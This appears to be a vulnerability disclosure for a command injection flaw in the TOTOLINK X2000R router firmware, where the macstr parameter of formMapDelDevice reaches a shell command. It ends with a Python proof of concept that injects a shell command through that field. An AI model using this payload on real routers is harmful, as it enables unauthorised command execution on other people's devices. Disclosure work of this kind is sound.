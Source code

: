 # TOTOLINK X2000R(V1.0.0-B20221212.1452) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/242/ids/36.html

## Affected Version
V1.0.0-B20221212.1452
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `sub_458e00` function of web server `/bin/boa`, which is the handler of `formMapDelDevice` function. The value of the `macstr` parameter will be spliced ​​into the command, which allows an attacker to excute any command.
![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.5.12/boafrm/formMapDelDevice"

payload = {'submit-url': 'multi_ap_popup_device_details.htm?count=1',
            'clientoff': '1',
            'macstr': ';echo success > /tmp/success;#',
            'bandstr': '#',
            'sessionCheck': '47f728da9cc450ab26ed9655a6a81e58'
            }


requests.request("POST", url, data=payload)
```
![fault](cmi.png)